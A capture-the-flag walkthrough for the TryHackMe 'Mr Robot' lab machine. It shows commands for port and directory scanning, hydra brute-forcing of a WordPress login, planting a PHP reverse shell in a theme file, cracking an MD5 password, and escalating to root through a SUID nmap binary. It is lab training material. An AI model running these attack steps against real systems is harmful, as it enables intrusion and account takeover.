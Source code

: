 # [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

## Based on the Mr. Robot show, can you root this box?

# 1 Hack the machine

## Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

### What is key 1?

Hint: Robots

This one is pretty easy, we could easily brute force it just by going into `http://<IP>/robots.txt`, but let's do it properly

1. First enumerate the server with nmap

```bash
nmap -p- -Pn <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-Pn`: Skips the host discovery process (ping scan)

![SCREEN01](https://github.com/user-attachments/assets/70a1f790-0fbc-417e-94bc-147c59b2e52b)

2. Enumerate directories with gobuster

```bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing

3. Now that we have officially found it - go to `http://<IP>/robots.txt`. Here we can see two more paths: `fsocity.dic` and `key-1-of-3.txt`. The second one in `http://<IP>/key-1-of-3.txt` contains first key.

### What is key 2?

Hint: There's something fishy about this wordlist... Why is it so long?

The `fsocity.dic` looks like a credentials list

1. While enumerating with gobuster we have also found `http://<IP>/wp-login.php`. When trying to login with random credentials, this returns, a handy error saying '**ERROR: Invalid username**' - thanks to this we can prepare list of valid usernames

2. But first things first, the list contains duplicates so clean it up a bit:

```bash
sort fsocity.dic | uniq -d > fsocity-unique.dic
sort fsocity.dic | uniq -u >> fsocity-unique.dic
wc -w fsocity-unique.dic
```

- `-d`: Outputs lines that appear multiple times
- `-u`: Outputs lines that appear exactly once
- `-w`: Count words

3. While logging in to `http://<IP>/wp-login` in DevTools -> Network we can see the Request parameters

![SCREEN02](https://github.com/user-attachments/assets/ea686888-9b26-431c-a2c1-509a77e273cf)

4. hydra payload time:

```bash
hydra -L fsocity-unique.dic -p test <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -t 30
```

- `-L`: Specifies a list of usernames to try from the file
- `-p`: Uses a single password for all attempts
- `-t`: Number of parallel connections to use for the attack

![SCREEN03](https://github.com/user-attachments/assets/27d74201-63ce-4e5f-bce6-08d8c88297f1)

5. With the correct username, the error changes to '**ERROR: The password you entered for the username is incorrect.**'

```bash
hydra -l elliot -P fsocity-unique.dic <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```

- `-l`: Specifies a single username to use for all attempts
- `-P`: Specifies a list of passwords to try from the file
- `-t`: Number of parallel connections to use for the attack

![SCREEN04](https://github.com/user-attachments/assets/f4d896c5-11de-47bf-a840-d24504aba526)

6. After logging in, set the netcat listener, get php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), and paste to archive.php in Appearance -> Editor view. Update file (remember to change `$ip` and `$port`) and go to the `http://<IP>/wp-content/themes/twentyfifteen/archive.php` to activate the reverse shell

```bash
nc -lvnp 4444
```

- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: Skip DNS lookup
- `-p`: Specify the port number to listen on

![SCREEN05](https://github.com/user-attachments/assets/dd242322-9f25-44f7-a798-d2ec7b00b77b)

7. In home/robot there are two files `key-2-of-3.txt` and `password.raw-md5`. Unfortunately we don't have access premission to access second flag as of now, but we can crack the MD5 password and try as a robot user

```bash
ls -la home/robot
cat home/robot/key-2-of-3.txt
cat home/robot/password.raw-md5
```

![SCREEN06](https://github.com/user-attachments/assets/cc3c1ed8-6a65-4f44-8fba-76f03059d77a)

8. Crack the password using [Crack Station](https://crackstation.net/) and login as robot and get the flag

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
su robot
pwd
cat home/robot/key-2-of-3.txt
```

![SCREEN07](https://github.com/user-attachments/assets/65af9fef-32cc-4575-a435-fc722c557572)

### What is key 3?

Hint: nmap

1. Search for files with special permissions. These are files that always execute as the user who owns the file, regardless of the user passing the command. Nmap is on the list.

```bash
find / -perm -u=s -type f 2>/dev/null
```

![SCREEN08](https://github.com/user-attachments/assets/d7732b8d-9aa5-4b37-a650-e2d4e4ea46dc)

2. Check [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) for nmap, go to the nmap directory and follow the instructions

```bash
cd /usr/local/bin
nmap --interactive
!sh
cat /root/key-3-of-3.txt
```

![SCREEN09](https://github.com/user-attachments/assets/7b793ef0-1434-4ad0-83b6-af72c2daf145)
